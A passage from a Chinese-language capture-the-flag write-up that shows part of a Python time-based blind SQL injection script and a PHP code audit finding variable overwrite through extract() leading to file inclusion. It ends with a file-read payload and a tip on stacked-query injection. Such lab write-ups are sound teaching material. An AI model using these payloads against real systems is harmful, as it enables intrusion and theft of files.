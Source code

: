 ```python
                res = requests.post(url=url, data=data, headers=headers, timeout=3)
                print(res.text)
            except requests.exceptions.ReadTimeout:
                flag = flag + chr(j)
                print(flag)
                break


def str_to_hex(s):
    return ''.join([hex(ord(c)).replace('0x', '') for c in s])

if __name__ == '__main__':
    main()
```

结果是`glzjin_wants_a_girl_friend.zip`

下载，然后进行代码审计，典型的MVC框架，先看一下核心配置，找到路由控制

```php
	$r = explode('/', $_REQUEST['r']);
	list($controller,$action) = $r;
	$controller = "{$controller}Controller";
	$action = "action{$action}";
    $data = call_user_func(array( (new $controller), $action));
```

假设GET的输入为?r=Login/Index，这段代码就去请求LoginController中的actionIndex方法

然后看一下控制器文件，总共三个。在BaseController.php中发现extract函数，可能存在变量覆盖，接着找可控点，在UserController.php发现其actionIndex函数是完全可控的，其调用的视图为userIndex.php，然后在userIndex.php发现存在文件包含，结合上面的变量覆盖就可以实现任意文件读取

![](../../.gitbook/assets/HjBsySntu8fbokR.png)

![](../../.gitbook/assets/S5vW9CXuA7FrbOg.png)

![](../../.gitbook/assets/Fx5Nca4QYLbng3T.png)

favicon.ico和flag.php在同一个路径下，把favicon.ico改成flag.php即可\
最终payload\
?r=User/Index\&img\_file=/../flag.php

## 小结

1. SQL注入要注意可以执行多条语句的情况，使用16进制+mysql预处理
